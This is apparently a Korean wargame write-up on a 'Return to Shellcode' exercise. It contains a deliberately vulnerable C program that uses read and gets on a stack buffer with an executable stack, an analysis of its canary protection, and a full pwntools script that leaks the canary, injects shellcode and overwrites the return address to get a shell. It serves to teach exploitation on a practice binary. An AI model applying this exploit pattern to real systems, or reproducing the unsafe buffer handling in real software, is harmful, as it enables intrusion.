 ## 📍Return to Shellcode

### 소스코드

```c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```


### 분석
#### 보호기법 탐지

적용된 바이너리 보호기법에 따라 익스플로잇 설계가 달라지므로, 분석 전에 먼저 어떤 보호기법이 작용되었는지 파악하는 것이 좋다.

pwntools와 함께 설치되는 **checksec** 툴을 사용한다.

`$ checksec ./r2s`

![](../../Attachments/8DB0DD9C-D126-49C6-B4CB-65CEA4F4E022.png)

카나리가 적용되어 있다.

#### 취약점 탐색

##### buf의 주소
문제에서 `buf`의 주소 및 `rbp`와 `buf` 사이의 주소 차이를 알려주고 있다.
##### 스택 버퍼 오버플로우
스택 버퍼인 `buf`에 총 2번의 입력을 받는다.
`read` 함수에서 주어진 버퍼보다 더 큰 입력을 받을 수 있고, `gets` 함수는 입력 크기를 제한하지 않으므로 안전하지 않은 함수이다.

### 익스플로잇 시나리오
#### 카나리 우회

두 번째 입력(`gets`)으로 반환 주소를 덮을 수 있지만 카나리가 조작되면 `__stack_chk_fail` 함수에 의해 프로그램이 강제 종료된다.
![](../../Attachments/DF26A06C-04F4-455A-A96D-7D790162A035.png)

첫 번째 입력을 살펴보자:
```c
  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);
```
- 스택 버퍼에 최대 100바이트의 입력을 받는다.
- 입력을 받고 바로 직후에 `buf`의 내용을 문자열로 출력한다.
- `buf`에 적절한 오버플로우를 발생시켜서 카나리 값을 구하고, 구한 카나리 값을 두 번째 입력에 사용한다.

#### 셸 획득

카나리를 구하고 나면, 두 번째 입력으로 반환 주소를 덮을 수 있다.
이때, 바이너리에 셸을 획득하는 코드가 없으므로 직접 셸을 획득하는 코드를 주입하고 해당 코드로 실행 흐름을 옮겨야 한다.

`buf`의 주소는 프로그램이 출력해주므로 주소를 알고 있는 `buf`에 셸 코드를 주입하고 해당 주소로 실행 흐름을 옮겨 셸을 획득한다.

### 익스플로잇

#### 스택 프레임 정보 수집

```python
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = process('./r2s')

context.arch = 'amd64'

p.recvuntil(b'buf: ')
buf = int(p.recvline()[:-1], 16)
slog('Adress of buf', buf)

p.recvuntil(b'$rbp: ')
buf2sfp = int(p.recvline().split()[0])
buf2cnry = buf2sfp -8
slog('buf <=> sfp', buf2sfp)
slog('buf <=> canary', buf2cnry)
```

#### 카나리 릭

스택 프레임에 대한 정보를 수집했으므로 이를 활용해 카나리를 구해야 한다.
`buf`와 카나리 사이를 임의의 값으로 채우면, 프로그램에서 `buf`를 출력할 때 카나리가 같이 출력된다.

![](../../Attachments/7DB10F8C-6142-4270-ABC3-813E0F263BE3.png)

```python
# [2] Leak canary value
payload = b'A'*(buf2cnry + 1) # (+1) because of the first null-byte

p.sendafter(b'Input:', payload)
p.recvuntil(payload)
cnry = u64(b'\x00'+p.recvn(7))
slog('Canary', cnry)
```

#### 익스플로잇

![](../../Attachments/561167F2-0E66-4661-ACF1-E015D440FDD0.png)

카나리를 구했으므로 `buf`에 셸코드를 주입하고 카나리를 구한 값으로 덮은 뒤 RET(반환 주소)를 `buf`로 덮으면 셸코드를 진행시킬 수 있다.

```python
# [3] Exploit
sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b'A') + p64(cnry) + b'B'*0x8 + p64(buf)
# gets() receives input until '\n' is received
p.sendlineafter(b'Input:', payload)

p.interactive()
```

```python
#!/usr/bin/env python3
# Name: r2s.py
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = process('./r2s')

context.arch = 'amd64'

# [1] Get information about buf
p.recvuntil(b'buf: ')
buf = int(p.recvline()[:-1], 16)
slog('Address of buf', buf)

p.recvuntil(b'$rbp: ')
buf2sfp = int(p.recvline().split()[0])
buf2cnry = buf2sfp - 8
slog('buf <=> sfp', buf2sfp)
slog('buf <=> canary', buf2cnry)

# [2] Leak canary value
payload = b'A'*(buf2cnry + 1) # (+1) because of the first null-byte

p.sendafter(b'Input:', payload)
p.recvuntil(payload)
cnry = u64(b'\x00'+p.recvn(7))
slog('Canary', cnry)

# [3] Exploit
sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b'A') + p64(cnry) + b'B'*0x8 + p64(buf)
# gets() receives input until '\n' is received
p.sendlineafter(b'Input:', payload)

p.interactive()
```